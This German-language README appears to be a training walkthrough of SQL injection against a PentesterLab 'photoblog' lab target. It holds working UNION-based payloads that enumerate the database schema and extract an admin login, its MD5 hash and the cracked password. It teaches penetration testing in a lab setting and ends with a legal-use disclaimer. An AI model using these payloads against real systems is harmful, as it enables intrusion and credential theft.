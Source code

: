 # SQL Injection to Shell – Exploitation Walkthrough

---

## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Erste Tests](#erste-tests)
- [Datenbankaufbau erkunden](#datenbankaufbau-erkunden)
- [Benutzeranmeldeinformationen extrahieren](#benutzeranmeldeinformationen-extrahieren)
- [Haftungsausschluss](#haftungsausschluss)

---

## Einleitung

Dieses Dokument beschreibt einen vollständigen SQL-Injection-Angriff mit dem Ziel, Informationen aus der Datenbank zu extrahieren und Zugangsdaten zu erlangen. Die genutzte Zielanwendung basiert auf einer MySQL-Datenbank.

- **MySQL-Version:** 5.1.63-0+squeeze1  
- **Datenbank:** photoblog  
- **Benutzer:** pentesterlab@localhost  
- **Datenverzeichnis:** /var/lib/mysql/  

Ziel der folgenden Schritte ist es, über SQL Injection Zugriff auf sensible Daten zu erlangen, die zur weiteren Kompromittierung des Systems verwendet werden können.

---

## Erste Tests

### Basistest
```http:
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,2,3,4 --+
```

### Version Anzeigen
```http:
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,version(),3,4 --+
```

### Aktive Datenbank anzeigen
```http
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,database(),3,4 --+
```

### Benutzer anlegen
```http
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,user(),3,4 --+
```

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Datenbankaufbau erkunden

### Datenbanken auflisten

```sql
UNION SELECT 1,group_concat(schema_name),3,4 FROM information_schema.schemata
```

**Ergebnis Beispiel:**
- information_schema
- photoblog

**Ziel-Datenbank: Beispiel:**
- photoblog

### Tabellen in der photoblog-Datenbank

```sql
UNION SELECT 1,group_concat(table_name),3,4 FROM information_schema.tables WHERE table_schema=database()
```

**Ergebnis Beispiel:**
- categories
- pictures
- users

### Spalten der Tabelle `users`

```sql
UNION SELECT 1,group_concat(column_name),3,4 FROM information_schema.columns WHERE table_name=0x7573657273
```

***HINWEIS:*** 
0x7573657273 ist Hexadezimal aus dem Wort users

**Ergebnis Beispiel:**
- id
- login
- password

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Benutzeranmeldeinformationen extrahieren

```http
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,group_concat(id,0x3a3a,login,0x3a3a,password),3,4 FROM users
```

**Ergebnis (entschlüsselt):** **Beispiel**
```cpp
1::admin::8efe310f9ab3efeae8d410a8e0166eb2
```

**Anmeldeinformationen:** **Beispiel**
- Benutzername: admin
- Passwort-Hash (MD5): 8efe310f9ab3efeae8d410a8e0166eb2
- Klartext-Passwort: P4ssw0rd

---

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---